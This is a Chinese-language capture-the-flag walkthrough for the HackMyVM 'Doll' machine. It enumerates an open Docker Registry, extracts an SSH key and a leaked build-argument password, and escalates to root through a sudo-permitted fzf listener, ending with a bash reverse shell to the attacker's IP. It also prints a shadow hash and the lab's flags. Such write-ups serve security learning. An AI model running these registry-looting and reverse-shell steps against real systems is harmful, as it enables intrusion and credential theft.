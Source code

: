 # Doll

2025.03.12 https://hackmyvm.eu/machines/machine.php?vm=Doll

## Ip

192.168.5.39

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
1007/tcp open  unknown
```

1007 端口显示为 Docker Registry (API: 2.0) ， 目录扫描出 http://192.168.5.39:1007/v2

http://192.168.5.39:1007/v2/_catalog

```json
{
    "repositories": ["dolly"]
}
```

http://192.168.5.39:1007/v2/dolly/tags/list

```json
{
    "name": "dolly",
    "tags": ["latest"]
}
```

http://192.168.5.39:1007/v2/dolly/manifests/latest

```json
{
    "schemaVersion": 1,
    "name": "dolly",
    "tag": "latest",
    "architecture": "amd64",
    "fsLayers": [
        {
            "blobSum": "sha256:5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017"
        },
        {
            "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
        },
        {
            "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
        },
        {
            "blobSum": "sha256:f56be85fc22e46face30e2c3de3f7fe7c15f8fd7c4e5add29d7f64b87abdaa09"
        }
    ],
    "history": [
        {
            "v1Compatibility": "{\"architecture\":\"amd64\",\"config\":{\"Hostname\":\"10ddd4608cdf\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":true,\"AttachStdout\":true,\"AttachStderr\":true,\"Tty\":true,\"OpenStdin\":true,\"StdinOnce\":true,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\"],\"Cmd\":[\"/bin/sh\"],\"Image\":\"doll\",\"Volumes\":null,\"WorkingDir\":\"\",\"Entrypoint\":null,\"OnBuild\":null,\"Labels\":{}},\"container\":\"10ddd4608cdfd81cd95111ecfa37499635f430b614fa326a6526eef17a215f06\",\"container_config\":{\"Hostname\":\"10ddd4608cdf\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":true,\"AttachStdout\":true,\"AttachStderr\":true,\"Tty\":true,\"OpenStdin\":true,\"StdinOnce\":true,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\"],\"Cmd\":[\"/bin/sh\"],\"Image\":\"doll\",\"Volumes\":null,\"WorkingDir\":\"\",\"Entrypoint\":null,\"OnBuild\":null,\"Labels\":{}},\"created\":\"2023-04-25T08:58:11.460540528Z\",\"docker_version\":\"23.0.4\",\"id\":\"89cefe32583c18fc5d6e6a5ffc138147094daac30a593800fe5b6615f2d34fd6\",\"os\":\"linux\",\"parent\":\"1430f49318669ee82715886522a2f56cd3727cbb7cb93a4a753512e2ca964a15\"}"
        },
        {
            "v1Compatibility": "{\"id\":\"1430f49318669ee82715886522a2f56cd3727cbb7cb93a4a753512e2ca964a15\",\"parent\":\"638e8754ced32813bcceecce2d2447a00c23f68c21ff2d7d125e40f1e65f1a89\",\"comment\":\"buildkit.dockerfile.v0\",\"created\":\"2023-03-29T18:19:24.45578926Z\",\"container_config\":{\"Cmd\":[\"ARG passwd=devilcollectsit\"]},\"throwaway\":true}"
        },
        {
            "v1Compatibility": "{\"id\":\"638e8754ced32813bcceecce2d2447a00c23f68c21ff2d7d125e40f1e65f1a89\",\"parent\":\"cf9a548b5a7df66eda1f76a6249fa47037665ebdcef5a98e7552149a0afb7e77\",\"created\":\"2023-03-29T18:19:24.45578926Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop) CMD [\\\"/bin/sh\\\"]\"]},\"throwaway\":true}"
        },
        {
            "v1Compatibility": "{\"id\":\"cf9a548b5a7df66eda1f76a6249fa47037665ebdcef5a98e7552149a0afb7e77\",\"created\":\"2023-03-29T18:19:24.348438709Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop) ADD file:9a4f77dfaba7fd2aa78186e4ef0e7486ad55101cefc1fabbc1b385601bb38920 in / \"]}}"
        }
    ],
    "signatures": [
        {
            "header": {
                "jwk": {
                    "crv": "P-256",
                    "kid": "2Z7Q:7NQ3:Z7YC:AV7H:2ABM:YQSQ:CC6X:XKC7:A7VI:ICWO:GOJW:KTEM",
                    "kty": "EC",
                    "x": "AWecc5ox53LzWanJD3_RuDVBiN4Jo79hSwXsOc6JbaM",
                    "y": "9R6TbMkjhphceMB-8t3dh6cztVX75kpZC7Uaj5gJGg8"
                },
                "alg": "ES256"
            },
            "signature": "DgoqSopZ7nHVd7VMxQeQaMgfCHjJljbRWiPCT32j4Sw4hHtVRvBeSiVqxO6zU2kJnDK-Bg4IE2IZJnNlLw0RTQ",
            "protected": "eyJmb3JtYXRMZW5ndGgiOjI4MjksImZvcm1hdFRhaWwiOiJDbjAiLCJ0aW1lIjoiMjAyNS0wMy0xMlQwNTo1MzowMloifQ"
        }
    ]
}
```

复制上面每一个 blobSum 到这个 url 后面 , 访问下面 3 个 url 后得到 tar.gz 下载包(手动修改文件后缀名)，解压查看可能存在的敏感信息：

```
(1) http://192.168.5.39:1007/v2/dolly/blobs/sha256:5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017
(2) http://192.168.5.39:1007/v2/dolly/blobs/sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
(3) http://192.168.5.39:1007/v2/dolly/blobs/sha256:f56be85fc22e46face30e2c3de3f7fe7c15f8fd7c4e5add29d7f64b87abdaa09
```

也可以使用下面这个脚本进行自动枚举和下载 https://github.com/NotSoSecure/docker_fetch/blob/master/docker_image_fetch.py

其中在第一个下载链接对应的 gz 包中，发现了 /etc/passwd 文件，发现用户名 bela 并且发现 /etc/shadow 文件：

```
bela:$6$azVVFjn.mkvh.lhA$yAXPBGOZDXRdDBmn3obtzhUzxwfDD7u3YIcixohpKzTGpJS0Oeu7UVoguhmwg4DHNM8K5z7Tn93BBaDadM/A5.:19472:0:99999:7:::
```

没爆破出来，但是又在这个 gz 包中发现了用户的私钥连接文件 /home/bela/.ssh/id_rsa 私钥有密码，尝试爆破，没结果。

这里没有其他的信息了，在仔细看一下上面返回的 manifests ，这里看到可能是密码 ARG passwd=devilcollectsit 在密钥处输入这个字符串 devilcollectsit，登陆成功。

先拿到了 user flag：

```
bela@doll:~$ cat user.txt
juHDnnGMYNIkVgfnMV
```

sudo -l 显示 `(ALL) NOPASSWD: /usr/bin/fzf --listen\=1337` man 查看帮助 fzf - a command-line fuzzy finder 是一个内容模糊查找提示软件。

尝试执行: `sudo -u root /usr/bin/fzf --listen=1337` 在 127.0.0.1 上会创建一个在 web 上可以执行搜索的服务，在目标机器上使用 curl 发送需要执行的命令：

```
curl http://127.0.0.1:1337/ -d 'execute(echo 1 > /tmp/test.txt)'
```

这时发现/tmp 目录中以 root 用户生成了 test.txt 文件，这时就可以执行反弹 shell，获得 root 权限：

```
curl http://127.0.0.1:1337/ -d 'execute(/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1)'
```

拿到了最终的 root flag:

```
root@doll:~# cat root.txt
xwHTSMZljFuJERHmMV
```
